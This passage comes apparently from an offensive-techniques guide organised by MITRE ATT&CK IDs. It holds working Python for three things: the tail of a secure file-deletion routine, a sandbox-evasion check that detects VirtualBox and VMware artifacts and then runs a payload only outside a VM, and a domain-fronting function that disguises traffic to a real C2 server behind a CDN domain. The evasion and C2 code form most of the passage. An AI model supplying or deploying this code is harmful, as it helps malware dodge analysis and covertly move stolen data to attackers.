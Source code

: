 ```python
            f.flush()
            os.fsync(f.fileno())
    
    os.remove(filepath)
```

---

## 4. Advanced Techniques

### 4.1 Sandbox Detection (T1497)

```python
import os
import subprocess

def is_virtual_machine():
    """Detect if running in VM"""
    
    # Check for VM-specific files
    vm_files = [
        r"C:\Windows\System32\Drivers\VBoxMouse.sys",
        r"C:\Windows\System32\Drivers\vmhgfs.sys",
    ]
    
    for file in vm_files:
        if os.path.exists(file):
            return True
    
    # Check for VM processes
    vm_processes = ["vboxservice.exe", "vmtoolsd.exe"]
    tasklist = subprocess.check_output("tasklist", shell=True).decode()
    
    for proc in vm_processes:
        if proc.lower() in tasklist.lower():
            return True
    
    return False

if is_virtual_machine():
    exit(0)  # Terminate
else:
    run_payload()
```

### 4.2 Domain Fronting (T1090.004)

```python
import requests

def domain_fronting_request(actual_c2, front_domain, path, data):
    """Use CDN domain fronting to hide C2"""
    
    headers = {
        'Host': actual_c2,  # Real C2 server
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)'
    }
    
    url = f"https://{front_domain}{path}"
    response = requests.post(url, headers=headers, data=data, verify=True)
    return response.content
```

---